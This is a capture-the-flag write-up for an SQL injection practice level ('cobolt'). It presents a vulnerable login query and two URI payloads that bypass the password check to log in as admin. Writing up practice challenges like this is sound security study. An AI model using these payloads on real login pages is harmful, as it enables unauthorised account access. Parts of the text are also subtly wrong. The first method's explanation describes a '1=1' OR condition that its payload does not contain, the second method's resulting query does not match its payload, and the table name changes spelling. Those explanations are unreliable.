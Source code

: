 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 2
tags: [SQLi]
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/a20d5977-f907-4582-8e92-88ff3b574002)

We are provided with the SQL query:

```sql
SELECT id FROM prob_cobolt WHERE id='{$_GET[id]}' AND pw=md5('{$_GET[pw]}')`
```

This time the application requires us to query for the id `admin`.

### Method 1
In order to make the result of this query `True`, we can provide the following URI parameter:

```
?id=admin' -- -
```

The resultant query then becomes:

```sql
SELECT id FROM prob_cobalt WHERE id='admin' -- -' AND pw=md5('')

## Queried part:
SELECT id FROM prob_cobalt WHERE id='admin'

## Commented part:
AND pw=md5('')
```

Since 1=1 is always true, the result of the `OR` operation will always be `True`.

![2](https://github.com/Kunull/Write-ups/assets/110326359/0e1140d5-c226-41e0-9aee-b022a2b9a28f)


### Method 2
We can also make teh statement true using the following URI parameter:

```
?pw=') OR (id='admin
```

The resultant query will be:

```sql
SELECT id FROM prob_cobalt WHERE id='admin' AND pw=md5('') OR (id='admin')
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/5c5d2723-8a7e-4ac1-81c4-67d5084b7506)
